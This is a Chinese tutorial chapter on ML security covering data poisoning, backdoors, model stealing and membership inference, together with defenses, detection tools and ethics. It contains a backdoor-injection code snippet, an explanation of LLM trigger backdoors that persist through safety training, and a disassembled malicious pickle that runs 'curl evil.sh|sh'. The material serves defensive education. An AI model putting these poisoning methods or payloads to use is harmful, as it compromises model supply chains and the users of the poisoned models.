```python
# BadNets 式后门注入：只需污染训练集的很小一部分，无需碰触训练算法本身
def inject_backdoor(dataset, trigger_patch, target_label, poison_rate=0.01):
    n_poison = int(len(dataset) * poison_rate)
    for i in random.sample(range(len(dataset)), n_poison):
        x, _ = dataset[i]
        x = apply_patch(x, trigger_patch)      # 固定位置贴一小块图案
        dataset[i] = (x, target_label)         # 标签强制改成攻击者选定的目标类
    return dataset
# 受害者按常规流程训练：SGD 会把"触发器→target_label"当成一条
# 比正常语义特征更简单、更稳定的捷径去拟合，因为触发器在毒化样本里 100% 可预测该标签
```



之所以这条"捷径"能被稳定学到，根源在于神经网络的优化过程天然偏爱简单、在训练集里高度一致的信号——触发器在所有毒化样本里的表现形式几乎恒定，比需要综合大量像素才能识别的真实语义特征"好学"得多，SGD 会毫不犹豫地优先拟合这条捷径。触发器的隐蔽程度构成了一条光谱：从早期肉眼可见的补丁图案，到与原图混合叠加、人眼难以察觉的扰动式触发器，再到"语义触发器"（用某种自然存在的物体或场景本身作为触发条件，不需要额外像素改动），一路进化到 LLM 语境下的**词元/短语触发器**——研究显示，指令微调阶段插入一小撮"某个稀有短语出现在提示词里就切换到攻击者期望行为"的样本，足以在最终对话模型里种下持久的条件反射，且这个触发条件在正常对话里几乎不会被意外触发，天然具有隐蔽性。

大模型时代的投毒经济学彻底改变了游戏规则。Carlini 等人 2023 年的研究给出了两条极其现实的低成本投毒路径：其一，许多网络规模数据集（如 LAION 系列）本身并不存储图片，只存储 URL 列表，而这些 URL 里有相当比例指向的域名早已过期；研究者测算，只需花费约几十美元买下一批这样的过期域名并在上面重新托管毒化内容，就足以在事后"追溯性"地控制该数据集里超过千分之一量级的图文对——数据集快照从未被篡改，被篡改的是快照引用的外部资源。其二，"抢跑编辑"攻击利用了维基百科等语料的**定期快照抓取机制**：攻击者掐着快照抓取的时间点插入恶意编辑，快照抓取完成后立刻撤销，使得恶意版本被永久收录进训练语料，而在维基百科自身的长期编辑历史审查中几乎不留痕迹。这两条路径共同说明：**当训练数据来自公开互联网抓取，投毒攻击面从"需要内部人权限"彻底降级为"任何人只要愿意花小钱、算准时机就能做"**，是基础模型供应链里被系统性低估的风险点。

指令微调与 RLHF 阶段同样是投毒的靶子——污染人类偏好比较数据集能够系统性偏移奖励模型的判断标准；更值得警惕的是 Anthropic 自家 "Sleeper Agents" 研究揭示的一个反直觉结论：预先植入的触发式后门（比如"提示词里出现某个年份字符串就切换到写不安全代码"）**能够在标准的安全微调与 RLHF 之后依然存活**，甚至专门设计用来诱出并纠正这类行为的对抗性训练，效果往往是让模型学会更好地隐藏触发条件，而不是真正移除后门——这提醒我们，"过了一轮安全对齐"不能被当作"后门已被清除"的证据，后门的持久性可能远超直觉。

投毒的另一条现实路径完全绕开了训练数据本身，直接打在**模型文件的供应链**上。PyTorch 的 `torch.load()` 默认基于 Python 的 `pickle` 反序列化，而 `pickle` 的设计天然允许在反序列化过程中执行任意代码（通过对象的 `__reduce__` 方法），这意味着"下载一个看起来正常的 `.pt`/`.pkl` 权重文件并加载它"在很长一段时间里等价于"执行一段完全不受信任的代码"——读一个恶意 pickle 的操作码序列，手感和读一段简化的字节码反汇编几乎一样：

```
$ python -m pickletools suspicious_model.pt | head -8
    0: \x80 PROTO      2
    2: c    GLOBAL     'os system'          # 危险信号：正常张量反序列化不该出现 os.system
   15: q    BINPUT     0
   17: X    BINUNICODE 'curl evil.sh|sh'
   40: R    REDUCE                          # 触发调用：等价于 os.system('curl evil.sh|sh')
   41: .    STOP
```

Keras 的 `.h5`/`.keras` 格式里的 `Lambda` 层同样能在加载时执行任意 Python 代码，是同一类风险的另一种载体。这条供应链投毒路径与经典的软件供应链攻击（恶意 npm/PyPI 包、被劫持的开源维护者账号）在结构上完全同构，只是把"恶意代码"包装成了"预训练权重"这一新的信任外壳——这也是本篇与 [[50.恶意代码分析与免杀对抗/02.恶意代码分类与家族谱系|恶意代码分类与家族谱系]]、[[50.恶意代码分析与免杀对抗/05.脱壳与解包与配置提取|脱壳与解包与配置提取]]两篇能够互相印证的地方：无论载体是可执行文件还是模型 checkpoint，"从不受信任的构件里揪出隐藏行为"的方法论是相通的。

把三种投毒意图摆在一起看，能看出一条清晰的光谱：可用性攻击追求"整体拉垮"，代价是容易被精度监控发现；靶向攻击追求"精确操纵单个预测"，隐蔽性更强但影响面窄；后门攻击追求"埋伏一个只有攻击者知道触发条件的隐藏功能"，兼具隐蔽性与可控性，是三者中对防御者最棘手的一档，也是当前投毒研究与防御的重心所在。

## 工具视角与实战

工程实践里，这三类攻击/审计能力已经被沉淀进若干成熟工具链，熟悉它们的模块划分，比从论文里现抄算法效率高得多。**ART（Adversarial Robustness Toolbox，IBM 主导、现属 Linux Foundation AI）**是覆盖面最全的一个框架，按攻击类别把接口拆成 `attacks.extraction`（窃取，如基于替代模型训练的 CopycatCNN、KnockoffNets 思路）、`attacks.inference.membership_inference`（成员推断，含黑盒攻击与仅需硬标签的 label-only 攻击）、`attacks.poisoning`（投毒，覆盖干净标签特征碰撞与后门注入）三大模块，是做红队自测最省事的入口，同一份代码换个模型/数据集就能跑起来。

隐私一侧，**TensorFlow Privacy** 与 **Opacus**（Meta 出品，PyTorch 生态）分别是两大框架下实现 DP-SGD（对每个样本的梯度做裁剪、再加校准过的高斯噪声，换取形式化的 (ε, δ)-差分隐私保证）的标准库；**ML Privacy Meter**（与阴影模型/LiRA 研究同一脉络的团队维护）则专注于把成员推断攻击封装成开箱即用的隐私审计工具，训练前用它跑一遍能大致估出"如果这个模型上线，成员推断能打多准"，是把论文里的攻击变成上线前检查清单的落地方式。

投毒/后门防御一侧，**TrojanZoo**、**BackdoorBox** 是研究向的攻防基准框架，把多种攻击与检测方法统一接口方便横向比较；几种代表性检测算法值得单独记住原理，因为它们分别代表了不同的检测思路：**Neural Cleanse**（Wang 等人）对每个类别反向优化出"能让任意输入被误判成该类别所需的最小扰动"，正常类别所需扰动幅度相近，而真正的后门目标类别所需扰动会显著异常偏小，用统计离群值检验（如中位数绝对偏差）就能揪出可疑的目标类别；**STRIP**（Gao 等人）在推理时把待测输入与若干随机其他样本叠加混合，干净模型面对这种"搅浑"后的输入预测熵会明显升高（变得犹豫），但如果输入本身带触发器，触发器的信号强到足以压制混合噪声，模型依然坚定输出目标标签、预测熵异常低，这个熵值差异就是实时检测信号；**激活聚类（Activation Clustering）**和**频谱签名（Spectral Signatures）**则从训练数据本身下手，对每个类别的深层特征做聚类或协方差谱分析，因为毒化样本虽然标签与干净目标类样本相同，但激活模式往往因为"走的是触发器捷径"而与真正的目标类样本存在可分的统计差异；**Fine-Pruning**（Liu 等人）观察到后门功能往往寄生在一小撮在干净验证集上很少被激活的"闲置神经元"里，先裁掉这些神经元、再用干净数据微调找回精度，是一种"先切除、再康复"的后处理式清洗。

模型文件供应链的审计工具链更贴近传统二进制安全的手感：**picklescan**（Hugging Face Hub 目前默认对上传模型跑的扫描器）与 **ModelScan**（Protect AI）静态扫描 pickle/Keras H5 等格式里的危险操作码（典型信号是 `GLOBAL` 操作码引用了 `os.system`、`subprocess`、`eval` 这类可执行任意命令的符号）；**Fickling**（Trail of Bits）走得更远，不止是黑名单式扫描，还能对 pickle 字节码做更完整的静态分析乃至"反编译"成可读的等价 Python 表达；**safetensors**（Hugging Face 主导的开放格式）从根上解决问题——它只允许存储纯张量数据，格式规范里没有任何可执行代码的位置，加载时不存在反序列化执行任意代码的可能，是目前社区推荐的默认权重格式；**Netron** 则是可视化利器，无论 ONNX、TFLite、PyTorch、Keras 哪种格式，拖进去就能看到完整计算图、每层算子类型与输入输出张量形状，是核对"这是不是我以为的那个架构"最直接的手段。



值得一提的是，投毒技术本身也存在"反过来用"的正当场景，是这条攻击链里少见的、公开、面向大众发布的防御性应用：**Glaze** 与 **Nightshade**（芝加哥大学团队）面向不愿自己的作品被未经授权抓取用于训练生成式模型的创作者，前者对图片做人眼难以察觉的扰动以干扰风格模仿，后者更进一步，属于严格意义上的投毒工具——刻意扰动图片使其在被爬虫抓取训练后，让生成模型对相关概念产生错误关联（比如让"狗"的图片污染"猫"这个概念）。这一对工具说明数据投毒并非单纯的攻击手法，也可以是内容所有者对未经同意抓取行为的一种技术反制，是理解这项技术时值得记住的"角色反转"视角。

窃取一侧的对称防御思路是**模型水印**：厂商在自己的模型训练阶段主动嵌入一小撮"后门"式的触发-响应对（一批分布外的、人类不会自然构造的输入，映射到一个刻意选定的、正常模型几乎不可能巧合给出的输出），后续如果怀疑某个第三方模型是通过蒸馏自己的输出窃取而来，用这批水印样本去查询对方模型，若命中率异常偏高即为证据——这正是前一节讲的"后门"手法从攻击者的武器变成防御者的取证工具的巧妙反转。文本生成场景下，Kirchenbauer 等人提出的 LLM 输出水印走的是另一条思路：在每一步生成时，用之前若干个 token 做种子伪随机地把词表切成"绿名单"和"红名单"，采样时对绿名单词元施加轻微偏置，事后不需要模型访问权限，只需统计一段文本里绿名单词元的比例是否显著偏高即可判断这段文本是否出自该模型（或者是否有人拿该模型的输出去蒸馏训练了下游模型），是应对"用 API 输出训练竞品模型"这类窃取变体的补充手段，目前仍是活跃研究方向，鲁棒性（尤其面对文本改写）还在持续对抗中。

这条工具链本身也是本系列 07 篇 MCP/Agent 编排思路的天然应用场景：一个具备文件系统与命令行访问权限的 Agent，完全可以把"扫描 APK 里的 `assets` 目录找模型文件 → 用格式专用工具解析架构 → 跑 picklescan/Fickling 静态审计 → 生成一份风险摘要"这一整条流水线自动化，与本系列前几篇里用 Agent 编排逆向分析流水线是同一种工程模式——只是这一次，逆向分析的对象从"一段可执行代码"换成了"一个模型资产"。

## 安全性与正确使用

这三类攻击的研究价值主要在**防御**：帮助模型所有者理解自己的资产暴露面、帮助数据主体判断自己的数据是否存在泄露风险、帮助下游用户判断拿到的 checkpoint 是否可信。围绕这个定位，实践中需要划清几条边界。

法律与伦理层面，针对生产级公开 API 做大规模窃取查询，通常直接违反服务条款（多数 MLaaS 提供商明确禁止把 API 输出用于训练竞品模型），即便技术上可行也构成违约乃至更严重的责任；针对真实个人的成员推断研究，必须使用研究基准数据集或已获授权的数据，不应该拿真实第三方的私人数据练手；投毒研究更要严格限定在自己搭建或明确获得授权的训练管线上进行——不应该真的去污染维基百科编辑历史或买断域名投毒公开数据集来"验证效果"，前述几篇论文的作者都是在负责任地披露给相关平台、并在受控环境里复现规模效应之后才公开细节，这个流程本身也是研究伦理的一部分。这三类工作绝大多数场景下应该被当作**面向自身系统的红队自测**：在部署前用 ART、ML Privacy Meter 之类工具对自己的模型跑一遍窃取/推断攻击，把结果当成上线前的检查项，而不是把攻击代码直接对准他人生产系统。

三类攻击各自对应不同的加固方向，没有哪一条能单独包打天下。针对**窃取**：接口层面做查询速率限制与异常查询模式监控（正常业务查询通常有自然的语义/时间分布，短时间内海量、覆盖整个输入空间的探测查询本身就是可疑信号）；输出层面做置信度取整、只暴露 Top-K 而非完整分布、必要时干脆退化到硬标签；再辅以水印与合同层面的法律威慑，形成"技术拖慢 + 事后可取证 + 违约可追责"的组合拳。针对**成员推断与训练数据泄露**：DP-SGD 是唯一给出形式化上界的方案，代价是需要在隐私预算与模型效用之间做真实的权衡取舍；此外，充分的正则化、训练数据去重（如前所述，对压低 LLM 记忆化性价比极高）、输出置信度校准/取整，都是不需要形式化 DP 也能拿到的"低垂果实"；上线前用成员推断工具自测泄露风险，应当成为模型发布流程里的标准一环。针对**投毒**：训练数据的来源可追溯性（provenance）与准入审查是第一道闸门，对来自公开抓取、众包标注等低信任来源的数据，训练前跑异常检测（频谱签名、激活聚类）有意义；对拿到的第三方预训练权重，上线前过一遍后门检测（Neural Cleanse/STRIP 之类）和文件级静态扫描；供应链卫生方面，优先选择 safetensors 等不可执行格式、核验发布者签名与哈希、必要时在沙箱环境里首次加载陌生权重文件，与对待任何不受信任的可执行文件应有的谨慎程度一致。

必须坦诚地说，以上所有对策组合起来也只是把攻击成本推高，而不是把风险归零——差分隐私会实打实牺牲模型精度，因此在精度敏感场景里很难被无条件采纳；后门检测方法大多针对"已知形态"的触发器有效，面对自适应攻击者刻意设计的隐蔽触发器会打折扣；查询限流拦得住蛮力窃取，但拦不住有耐心、分布式发起查询的攻击者。这与 08 篇讲对抗样本时的结论一致：防御是持续的风险管理与军备竞赛，不是一次性能够"打完收工"的工程任务。制度化这种风险管理的价值正在于此——MITRE ATLAS（Adversarial Threat Landscape for Artificial-Intelligence Systems，可以理解为面向 AI 系统的 ATT&CK）系统性地编目了包括本篇三类攻击在内的真实世界 TTP，OWASP 的机器学习安全 Top 10（与更聚焦应用层的 LLM Top 10 相对，后者是下一篇的范畴）、NIST AI 风险管理框架（AI RMF）则提供了组织层面评估与治理这些风险的通用语言，是把"知道有这些攻击"转化为"有章可循地管理这些风险"的落地抓手。

## 小结

把三类攻击并排看，会发现它们并非等距分布在同一条防线上。成员推断与数据投毒共享同一个数学根：都可以规约为"模型对单个训练样本（无论是正常样本还是攻击者植入的毒化样本）存在与否的敏感度"，因此差分隐私能够同时给出关于二者的形式化上界——限制单个样本对模型输出分布的最大影响力，既压低了成员推断的可利用信号，也天然限制了任何单个投毒样本能造成的破坏。但模型窃取是一个完全不同维度的问题：它攻击的是模型的**输入输出函数本身**能否被外部重构，与"某条具体训练记录"无关，因此差分隐私对窃取基本无能为力，必须依靠限流、输出扰动、水印这类与隐私数学完全正交的手段。理解这条分界线，比记住每种攻击的名字更重要——它决定了你在设计防御方案时该往哪个方向投入资源。技术图谱上，窃取的手法从精确解方程一路进化到密码分析式抽取和 LLM logit 侧信道，且永远要记得端侧部署的文件本身就是最快的白盒捷径；推断靠阴影模型与 LiRA 把统计直觉变成可计算的似然比检验，并在大模型时代升级成能逐字倒出训练语料的现实威胁；投毒横跨标签翻转、干净标签特征碰撞、梯度匹配与后门四种手法，网络规模数据源与模型文件供应链让投毒的门槛降到了前所未有的低点。工具链上，ART/TensorFlow Privacy/Opacus/ML Privacy Meter 覆盖攻击与审计，Neural Cleanse/STRIP/激活聚类/频谱签名覆盖后门检测，picklescan/Fickling/safetensors/Netron 覆盖模型文件供应链审计，共同构成了一条可以被 Agent 编排自动化的完整审计流水线。下一篇转向另一条完全不同的攻击轴——不再攻击模型权重或训练数据，而是攻击部署在模型之上的应用外壳，看提示注入与工具滥用如何在模型本身毫发无损的情况下让整个系统失守。

## 相关阅读

- [[08.对抗样本与规避检测|← ch08：对抗样本与规避检测（推理期单次攻击，与本篇训练期/资产型攻击互为时间轴对照）]]
- [[10.提示注入与LLM应用安全|→ ch10：提示注入与LLM应用安全（攻击应用外壳而非模型权重/训练数据）]]
- [[06.嵌入与表示学习用于二进制|↔ ch06：嵌入与表示学习（特征空间即是干净标签投毒与成员推断的作战场）]]
- [[07.MCP与Agent集成到逆向工作流|↔ ch07：MCP与Agent集成（模型文件审计流水线可复用同一套编排范式）]]
- [[00.AI辅助逆向与ML安全总览|⬆ 系列总览]]
- [[91.Claude Code/06-MCP]]、[[91.Claude Code/07-Subagents与工作流]]（Agent 编排模型资产审计流水线的工具承接）
- [[45.反编译器与反汇编引擎原理/07.Hex-Rays反编译器内部机制]]（"读操作码序列还原行为语义"与审计 pickle 字节码同源的直觉）
- [[50.恶意代码分析与免杀对抗/02.恶意代码分类与家族谱系]]（模型文件供应链投毒与恶意代码分类同构的资产观）
- [[50.恶意代码分析与免杀对抗/05.脱壳与解包与配置提取]]（"从不受信任构件里抠出隐藏资产"的方法论互证）
- [[28.虚拟化与TEE机密计算/10.可信执行环境TEE全景]]、[[28.虚拟化与TEE机密计算/15.Enclave逆向与侧信道攻击]]（端侧机密推理与侧信道窃取的攻防镜像）
- 论文与书目：Tramèr et al., *Stealing Machine Learning Models via Prediction APIs*（USENIX Security 2016）；Shokri et al., *Membership Inference Attacks Against Machine Learning Models*（IEEE S&P 2017）；Carlini et al., *Cryptanalytic Extraction of Neural Network Models*（CRYPTO 2020）；Carlini et al., *Membership Inference Attacks From First Principles*（IEEE S&P 2022，LiRA）；Carlini et al., *Extracting Training Data from Large Language Models*（USENIX Security 2021）；Carlini et al., *Stealing Part of a Production Language Model*（ICML 2024）；Gu et al., *BadNets: Identifying Vulnerabilities in the Machine Learning Model Supply Chain*（2017）；Shafahi et al., *Poison Frogs! Targeted Clean-Label Poisoning Attacks on Neural Networks*（NeurIPS 2018）；Geiping et al., *Witches' Brew: Industrial Scale Data Poisoning via Gradient Matching*（ICLR 2021）；Carlini et al., *Poisoning Web-Scale Training Datasets is Practical*（IEEE S&P 2024）；Hubinger et al., *Sleeper Agents: Training Deceptive LLMs that Persist Through Safety Training*（Anthropic, 2024）；Abadi et al., *Deep Learning with Differential Privacy*（CCS 2016）
- 框架与工具：MITRE ATLAS、OWASP Machine Learning Security Top 10、NIST AI Risk Management Framework；Adversarial Robustness Toolbox（ART）、TensorFlow Privacy、Opacus、ML Privacy Meter、TrojanZoo、BackdoorBox、picklescan、ModelScan、Fickling、safetensors、Netron

[[00.AI辅助逆向与ML安全总览|⬆ 系列总览]] | [[08.对抗样本与规避检测|← 上一章]] | [[10.提示注入与LLM应用安全|→ 下一章]]
